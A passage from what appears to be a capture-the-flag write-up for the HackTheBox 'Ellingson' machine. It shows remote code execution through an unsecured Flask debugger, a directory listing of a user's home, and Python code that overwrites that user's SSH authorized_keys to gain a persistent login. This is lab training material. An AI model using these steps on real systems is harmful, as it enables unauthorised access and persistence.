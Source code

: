 

I was correct, the application is in fact a Flask Application. 

The thing about Flask applications is that, they come with a built in debugger. Which may or maynot be secured using a passphrase. 

And luckily, this one isn't.

![Image](./rce)

We have a source of RCE now.

We do need a proper tty shell to continue, after spending hours on trying to get a reverse shell, I thought, this machine also has a ssh port open. So there's gotta be a `.ssh` folder. Let's `ls -la`

```
subprocess.check_output(['ls -la /home/hal'],shell=True).decode().replace('\\n','\n')
'total 36\ndrwxrwx--- 5 hal  hal  4096 May  7 13:12 .\ndrwxr-xr-x 6 root root 4096 Mar  9  2019 ..\n-rw-r--r-- 1 hal  hal   220 Mar  9  2019 .bash_logout\n-rw-r--r-- 1 hal  hal  3771 Mar  9  2019 .bashrc\ndrwx------ 2 hal  hal  4096 Mar 10  2019 .cache\ndrwx------ 3 hal  hal  4096 Mar 10  2019 .gnupg\n-rw-r--r-- 1 hal  hal   807 Mar  9  2019 .profile\ndrwx------ 2 hal  hal  4096 Mar  9  2019 .ssh\n-rw------- 1 hal  hal   865 Mar  9  2019 .viminfo\n'
```

And we do have a `.ssh` folder. To get a full ssh shell, we need to add our public key to its authorized_keys

```
>>> f = open("/home/hal/.ssh/authorized_keys","w")
>>> f.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDpiK8whgtBu6DXmYMs41r9kiKM3AVbP6UJAhzV6xTASrAHwn4+wt55soFVFMFUIlAKU2uI5F860YMsLkO46YuJWH6IHTvL6BZ/92T5D5ySX9UMmaaN0CJVyvxrvC8ucACpvUR6AttNWKsxAFRFUmQ3Xbxk1CXtfRBSuQDjJISNifsACWy7d4tObBo/DHmQX/dHsXEKZxfhhu0OSpY/nvPP5I0m3wdC8c7vRgaGazYKFlc2gUcNWVqOqKCxzYNg1rNEO7NxlftIJYhpQ/ngBjVvT4sX6ph4jEcep8K9cx7CQJSJ57OprUkjnA4v3x7pjiSaNh4fo8N+KaLK0RAJgoLp green@pro")
>>> f.close()
```
And BAM!

```
ssh hal@ellingson.htb -i id_rsa2
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 18 15:39:16 UTC 2019

  System load:  0.09               Processes:            97
  Usage of /:   23.6% of 19.56GB   Users logged in:      0
  Memory usage: 13%                IP address for ens33: 10.10.10.139
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

163 packages can be updated.
80 updates are security updates.


Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
hal@ellingson:~$ 
```

